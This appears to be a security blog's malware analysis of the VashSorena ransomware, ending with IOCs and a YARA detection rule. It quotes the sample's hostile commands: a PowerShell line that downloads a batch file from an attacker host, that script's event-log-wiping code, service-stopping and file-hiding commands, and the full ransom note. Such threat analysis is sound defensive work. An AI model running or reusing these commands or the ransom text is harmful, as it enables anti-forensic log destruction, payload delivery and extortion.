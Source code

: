 ```yaml
---
layout: post
title: "VashSorena Ransomware"
---
```


After seeing this [tweet by @fbgwls245](https://twitter.com/fbgwls245/status/1393788011502997506?s=20), I wanted to try my hand analyzing some Go based malware. The sample is available on [Malware Bazaar](https://bazaar.abuse.ch/sample/39908c43e4124d6fd3362a5cf04cfbc4ac601ee35faf84a21c7979fdf74f05a6/).


One of the first steps I take in analyzing any executable malware is throw it into pestudio. Because all Go binaries are [statically linked](https://en.wikipedia.org/wiki/Static_library) the binaries are huge and contain a lot of library code - this causes pestudio to take a long time to analyze the file. This sample appears to be a valid 64 bit PE, that is not packed. One thing that stands out in the strings analysis portion is the gigantic size of the strings inside the binary. This is a trait of Go - strings are lumped together and accessed by knowing size, unlike C strings that rely on a null terminator (`\0`). This will cause some headaches later, but is not a major obstacle.


![32cd52f26d5bfa135437bc237f50f0e8.png](/images/5bf89193dfa84702be553600dd84c6ba.png)

One Ghidra script that can come in handy is [`golang_renamer.py`](https://github.com/ghidraninja/ghidra_scripts/blob/master/golang_renamer.py). If you're dealing with a stripped binary, this script can help restore function names. Symbols for this binary weren't stripped, so this script isn't necessary here, but I ran it anyway for consistency in function names with other samples.

If you search for `main_` in the Ghidra function window, it will show you the important functions of the program.


![af8559b0a41ccc87e5964b6ec46f8e9e.png](/images/fb8c16fadf914e4c87999bcb5ebc1cdb.png)

There's a lot to cover here, let's start with `main_main`. This is our equivalent of `WinMain` in C based binary. Inside the main body of this function, there are several function calls:


![0a8524bf409b941a0f5b8773fc95b269.png](/images/6961d9fdb0db4b4a8e1ba366011b6739.png)

`main_setIconForExtension_4d7370`
This executes a shell command `reg add HKEY_CLASSES_ROOT\\.Encrypt\\DefaultIcon /t REG_SZ /d %SystemRoot%\\System32\\SHELL32.dll,134 /f` which adds a default icon to the `.encrypt` file type.

To determine what that icon actually is, you can open up `shell32.dll` in Visual Studio and browse for icon #134.  

![05d11fe48c8b441da9efbcbea5d9dfdd.png](/images/09e2c0542d0546129ca9b2d68055598e.png)

One thing that you'll frequently run into during analysis of this binary, is the string issue I mentioned previously. You'll see a string snippet reference here:


![0a944834fcca6ff2e5e2d7f8f2fbb444.png](/images/055d1cb0774f47bab246a741deff4c4b.png)

But if you view the data, it looks like a giant blob of text with cross references everywhere.


![735a271b2ced6d3e9d8916eda7cce6cf.png](/images/33339a560f214c8d820f78263f888d42.png)


By highlighting this variable, right clicking and changing the data type to char, Ghidra will break these apart in a more sane manner. It won't be necessary to recreate all of the strings in the binary, but when you find a reference in the code, jumping back to that section, highlighting the appropriate characters, right clicking and choosing "string" will make your disassembly more readable. (After you've done this once, Ghidra allows you to use "y" as a hotkey to save you some clicking. )



![1ea56d2b3804a628698fb9ca0ce70c41.png](/images/5a0346b01868470d8423721e72b3cdff.png)



`main_KillProcess_4D7420`
This function runs a shell command `taskkill /F /IM ` attempting to kill the processes:

- sqlceip.exe
- sqlwriter.exe
- Spoof.uxe.tmp

`main_delExploit_4D75A0`
This function attempts to clean up several files (presumably, based on function name and location in the program) used to gain access:

- `c:\Users\Public\us.bat`
- `c:\Users\Public\2008.exe`
- `c:\Users\Public\Spoof.uxe.tmp"`
- `c:\Users\Public\rdp.bat`

`main_ClearUsercache_4D7640`
Calls `rmdir` to delete the user's AppData directory

`main_FirstDuty_4D7860`
Calls `attrib +h +s Encrypt.exe`, making the `Encrypt.exe` executable labeled as a hidden, system file.

Then, the function proceeds to use `net stop` to stop a variety of running services:

-MSSQL$SQLEXPRESS
-MSSQLSERVER
-SQLSERVERAGENT
-mysql
-plesksrv

Nested inside this function is a call to `main_getdrives_4D7F70` that loops through the alphabet, A-Z, and attempts to see if there is a drive located there.  

`main_ClearLogDownload_4D9F10`
This function calls PowerShell, with the command `(New-Object System.Net.WebClient).DownloadFile('https://moonlightkrippe.ch/DesktopModules/Journal/clear.txt', 'C:\LOG.bat')`

After retrieving the contents of the file for analysis:
```
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo goto theEnd
:do_clear
echo clearing %1
wevtutil.exe cl %1
goto :eof
:noAdmin
exit
```
Essentially, it is downloading a script that checks if the malware has admin access, and if it does, will use `wevutil.exe` to clear Windows Event logs. After download, the script is invoked in the `main_ClearLog_4D9FC0` function.

`main_MessageRan_4D96D0`
This function writes the ransom note, named `Decrypt_files.txt` to various places on the system. Here is the content of the ransom note:
```
++++++++++++++++++++++++++++++++ Hack For Mandatory Security ++++++++++++++++++++++++++++++++
All Your Files Has Been Locked!
If you think you can decrypt the files we would be happy :)
But all your files are protected by strong encryption with AES RSA 256 using military-grade encryption algorithm
Video Decrypt: Due to the deletion of video on video sharing sites
You can download and watch the video from the link below:

++++++++
https://drive.google.com/file/d/1QAhLOX-sQuyjk31LPPpseRlhaLKEZ_t7/view
++++++++
What does this mean ?
This means that the structure and data within your files have been irrevocably changed,
you will not be able to work with them, read them or see them,
it is the same thing as losing them forever, but with our help, you can restore them.
You Can Send some Files that not Contains Valuable Data To make Sure That Your Files Can be Back with our Tool
Your unique Id :
What are the guarantees that I can decrypt my files after paying the ransom?
Your main guarantee is the ability to decrypt test files.
This means that we can decrypt all your files after paying the ransom.
We have no reason to deceive you after receiving the ransom, since we are not barbarians and moreover it will harm our business.
You Have 2days to Decide to Pay
after 2 Days Decryption Price will Be Double
And after 1 week it will be triple Try to Contact late and You will know
Therefore, we recommend that you make payment within a few hours.
Do not rename encrypted files.
Do not try to decrypt your data using third party software, it may cause permanent data loss.
Again, we emphasize that no one can decrypt files, so don't be a victim of fraud.
It's just a business
Warning : If you email us late You may miss the Decrypt program Because our emails are blocked quickly So it is better as soon as they read email Email us ;)
You can buy bitcoins from the following sites
https://crypto.com
https://www.binance.com
https://www.coinbase.com/
https://localbitcoins.com/buy_bitcoins
https://www.coindesk.com/information/how-can-i-buy-bitcoins
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> Hack For Security <<<<<<<<<<<<<<<<<<<<<<<<<<<<<<
```

From there the binary will rely on some standard crypto functions to prepare a key and other less interesting things, before executing `main_walk_4D84E0` which walks through files on the file system and skips encryption if their path contains:

- `Decrypt_files.txt`
- `Encrypt.exe`
- `ngrok.exe`
- `Log.bat`
- `C:\Windows`
- `C:\Program Files\Reference Assemblies\`
- `C:\Program Files\Common Files\`
- `C:\Program Files\Internet Explorer\`
- `C:\Program Files (x86)\Reference Assemblies\`
- `C:\Program Files (x86)\Common Files\`
- `C:\Program Files (x86)\Internet Explorer\`
- `C:\Program Files\WindowsApps\`
- `C:\Program Files\Embedded Lockdown Manager\`
- `C:\Program Files\VMware\`
- `C:\ProgramData\Microsoft`

Before finally encrypting with `main_encrypt_4D91B0`, giving a file a new extension of `.Email=[decrypt8070@gmail.com]ID=[VVYUTQCVIAAAKVLP].Encrypt`.

IOCs
Type|Value
----|----
MD5 | `631101614bb5dac04fed6a14470b045e`
SHA256 | `39908c43e4124d6fd3362a5cf04cfbc4ac601ee35faf84a21c7979fdf74f05a6`
File name | `c:\Users\Public\us.bat`
File name | `c:\Users\Public\2008.exe`
File name | `c:\Users\Public\Spoof.uxe.tmp"`
File name | `c:\Users\Public\rdp.bat`
File name | `C:\LOG.bat`
File name | `Encrypt.exe`
File name | `Decrypt_files.txt`
Registry Modification | `HKEY_CLASSES_ROOT\\.Encrypt\\DefaultIcon`
URL | `https://moonlightkrippe.ch/DesktopModules/Journal/clear.txt`

YARA Rule
```
rule VashSorena {
	meta:
		description = "Rule to detect VashSorena Ransomware"
		author = "@hackpatch"
		date = 05172021
		url = "https://www.hacknpatch.com/2021/05/17/VashSorenaRansomware.html"

	strings:
		$mz = {4d 5a}
		$str1 = "C:/Users/VOMINO.IR/" nocase ascii
		$str2 = "Encrypt.go" nocase ascii
		$str3 = "Hack For Security" nocase wide ascii
		$str4 = "moonlightkrippe.ch" nocase wide ascii
		$str5 = "attrib +h +s Encrypt.exe" nocase wide ascii

	condition:
		$mz at 0 and 3 of ($str*)
}
```
